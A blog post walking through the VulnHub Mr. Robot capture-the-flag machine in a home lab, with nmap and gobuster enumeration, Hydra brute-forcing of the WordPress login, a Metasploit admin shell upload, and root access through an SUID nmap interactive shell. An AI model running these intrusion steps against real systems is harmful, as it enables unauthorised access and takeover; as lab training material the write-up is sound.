<nav style="text-align:right; font-size:0.9rem; margin-bottom:20px;">
  <a href="index.html"> Home</a> |
  <a href="/blog.html">Blog</a> |
  <a href="/contact.html">Contact</a> |
  <a href="/resume.html" target="_blank">Resume</a>

</nav>

---
# Mr. Robot Walkthrough

*Published on November 14, 2025 by **Ewan Oleghe**.*

---

## Introduction

 Performed full compromise of <a href="https://www.vulnhub.com/entry/mr-robot-1,151/" target="_blank">VulnHub **Mr. Robot**</a> with methodical, reproducible techniques and artifacted evidence. Produced reproducible attack walkthroughs, artifacts, SOC detection cases, hardening recommendations, and incident-response playbooks..  

---

### Set up.
Deployed Mr. Robot and Kali in my home lab on VirtualBox host-only networking to enable VM-to-VM communication while avoiding external exposure.

## Reconnaissance / Enumeration

**Nmap Scan.**
With connectivity verified, Nmap was used for enumeration to identify open ports, services, and potential vulnerabilities on the Mr. Robot machine. Using targeted scanning options allowed for efficient information gathering without generating excessive network noise.

-  Scan for open ports.
```bash
### bash
### Nmap Scan
nmap -T3 -n -Pn -p- 192.168.78.103

```
<ul style="font-size:70%">
  <li>-T3 : Timing template for moderate speed.</li>
  <li>-n : Disables DNS resolution to reduce unnecessary traffic.</li>
  <li>-Pn : Skips host discovery and treats the target as online.</li>
  <li>-p- : Scans all 65,535 TCP ports, instead of a limited set.</li>
</ul>



Three ports discovered 22, 80 and 443. Port 22 is closed.

#
-  Scan open ports for OS-detection, and vulnerability.
```bash
### bash
### Service & script scan
nmap -sV -sC -T3 -n -Pn -p80,443 192.168.78.101

```
<ul style="font-size:70%">
  <li>-sV: Version detection — identifies software/service versions.</li>
  <li>-sC	Runs Nmap’s default safe scripts (same as --script=default).</li>
  <li>-p22,80,443	Targets specific open ports found earlier.</li>
</ul>



The scan revealed **two open TCP ports (80 and 443)** on the target system, both running Apache-based web services. These exposed services serve as key footholds for deeper enumeration and potential exploitation pathways.

## Vulnerability Analysis

The Nmap scan of the target identified a small but potentially exploitable attack surface consisting of two open web-related ports: 80 (HTTP) and 443 (HTTPS), both running Apache httpd. While no high-severity vulnerabilities were immediately disclosed during the default NSE script scan, several findings warrant further investigation:

**Apache HTTP Server Exposure on Ports 80**
Further investigation of the HTTP service at port 80 revealed that the site is running WordPress. This was confirmed through fingerprinting using Wappalyzer, which identified WordPress-specific technologies and structure. The presence of WordPress significantly expands the potential attack surface, as it introduces common vectors such as outdated plugins, vulnerable themes, weak administrative credentials, and default configurations.
#



**Directory Bruteforce.**
I used GoBuster to uncover hidden directories.

```bash
### bash
### GoBuster Scan
gobuster dir -u http://192.168.78.103/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Gobuster revealed 'wp-login.php' and 'wp-admin' pages, both pages redirecting to '/wp-login.php' and an attempt at login produces a 'username' error. 




**robots.txt Enumeration Findings**
Further enumeration of the robots.txt file on the target web server revealed the following entries:
```bash
User-agent: *
fsocity.dic
key-1-of-3.txt
```
The presence of fsocity.dic is significant, as the .dic extension indicates a dictionary file, which commonly contains a large list of words. 

The file key-1-of-3.txt also suggests the presence of intentionally placed artifacts.

#
## Exploitation

**Download files to local machine and Examine these files**
The fsocity.dic file was successfully downloaded from the target server, and a line count analysis using the wc -l command confirmed that the dictionary file contains 858,160 entries.

**Previewing the File Contents**
A quick inspection of the first few entries showed common words and duplicate identifiers. The file was sorted and duplicate lines were removed, producing a cleaned wordlist named nfsocity.dic. The resulting file contained 11,451 unique entries.
```bash
### bash
sort fsocity.dic | uniq > nfsocity.dic
```

- Assess whether the usernames listed in **nfsocity.dic** trigger an ‘Invalid username’ response during authentication attempts. 
- Authentication requests were intercepted with Burp Suite to observe server responses and confirm whether error messages varied based on the username supplied. The captured request structure was then used in Hydra to perform an authorized test against the authentication endpoint using the nfsocity.dic wordlist to determine if the system exhibited username enumeration characteristics.


```bash
### bash
### Hydra Username Enumeration
hydra -L nfsocity.dic -p test 192.168.78.103 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username' 
```
<ul style="font-size:70%">
  <li>-L nfsocity.dic: Use this file as a list of usernames to test.</li>
  <li>-p test: Use this fixed password 'test' for every username.</li>
  <li>F=Invalid username: If the server responds with this phrase, the login attempt failed. </li>
</ul>


- Hydra was configured to flag responses containing “Invalid username”, which allowed identification of elliot as a valid usernames.

```bash
### bash
### Hydra Password Brute-Force
hydra -l elliot -P nfsocity.dic 192.168.78.103 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Password is incorrect"
```
- A password brute-force evaluation was conducted using Hydra with elliot as the fixed username and nfsocity.dic as the password list.



- The password 'ER28-0652' was successfully identified for the elliot account, enabling access to the WordPress admin dashboard and our role is defined as an administrator.
- An additional subscriber account named ‘mich05654’ was identified.



**Gaining Initial Access via WordPress**
We can utilize the WordPress administrative access to establish a managed shell on the web server using Metasploit as part of the authorized assessment.

```bash
### bash
### Metasploit WordPress Admin Shell
msfconsole

msf > 
use exploit/unix/webapp/wp_admin_shell_upload

```



<ul style="font-size:70%">
  <li>set password ER28-0652</li>
  <li>set rhosts 192.168.78.103</li>
  <li>set username elliot</li>
  <li>Show advanced options
    <ul>
        <li><strong>set WPCHECK false</strong></li>
        <li>WPCHECK: Check if the website is a valid WordPress install</li>
    </ul>
  </li>
</ul>

Using the WordPress-admin-derived shell, we accessed the /home/robot directory and retrieved the password.raw-md5 file, which contains the hashed password for the user robot; access to key-2-of-3.txt was denied due to insufficient permissions.


- The exploit was executed, resulting in a Meterpreter session on the target system.
#

- Python TTY was employed to upgrade Simple Shells to Fully Interactive TTYs





- Exploration of the robot user’s home directory.

---

## Privilege escalation

***Cracking 'password.raw-md5'**
- The password.raw-md5 file was downloaded to the local machine and cracked online at https://crackstation.net/ .
  


**Privilege Escalation to root**

- Checked sudo permissions for robot user
```bash
### bash
sudo -l
```


- ***Find SUID files***
```bash
### bash
find / -perm -4000 -type f 2>/dev/null
```
<ul style="font-size:70%">
  <li>The command output revealed several SUID-enabled binaries, including /usr/local/bin/nmap, which was of particular interest.</li>
  <li>This command
        <ul>
            <li>Searches the entire filesystem (/) for files with the SUID permission bit set (-perm -4000).</li>
            <li>Redirects error messages (like "Permission denied") to /dev/null to keep the output clean (2>/dev/null).</li>
        </ul>
   </li>
</ul>

- Start Nmap: Nmap has an interactive mode
  
```bash
    ### bash
    nmap --interactive
```


- In interactive mode, we can execute shell commands by using the ! (exclamation mark) followed by the command.
  
```bash
    nmap> ! whoami
    root

    nmap> ! ls /root
    key-3-of-3.txt

    nmap> ! cat /root/key-3-of-3.txt
```



All three keys have now been successfully identified, including the final one located in /root/key-3-of-3.txt. This confirms that full privilege escalation to the root account was achieved within the scope of the authorized challenge, completing the objectives of the exercise.